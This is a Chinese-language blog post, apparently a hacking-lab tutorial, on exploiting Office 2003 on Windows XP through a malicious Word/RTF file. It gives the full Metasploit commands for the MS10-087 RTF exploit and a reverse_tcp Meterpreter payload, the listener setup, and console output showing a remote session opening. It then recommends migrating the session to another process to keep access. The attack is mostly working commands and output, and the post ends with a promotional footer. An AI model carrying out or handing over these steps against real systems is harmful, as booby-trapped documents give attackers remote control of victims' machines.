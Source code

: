 ```yaml
---
layout: post
category: binghe-code-hack
title: 基于Word文件格式的渗透攻击
tagline: by 冰河
tag: [hack,binghe-code-hack]
excerpt: 基于Word文件格式的渗透攻击
lock: need
---
```


# 基于Word文件格式的渗透攻击

攻击机： Kali 192.168.175.128

靶机 WinXP 192.168.175.130

程序 Office 2003

## 生成Word文档

```bash
msfconsole
use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
set FILENAME word.rtf
exploit
```

具体如下：

```bash
msf5 > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show options

Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.rtf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME word.rtf
FILENAME => word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit

[*] Creating 'word.rtf' file ...
[+] word.rtf stored at /root/.msf4/local/word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > 
```

可以看到，在 /root/.msf4/local/目录下生成了word.rtf文件。

## 上传文件到靶机

在实际中，我们需要想办法将文件传到靶机上，这里，我就直接拷贝到靶机了

## 实施攻击

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开Word文件

在靶机上利用Office 2003打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)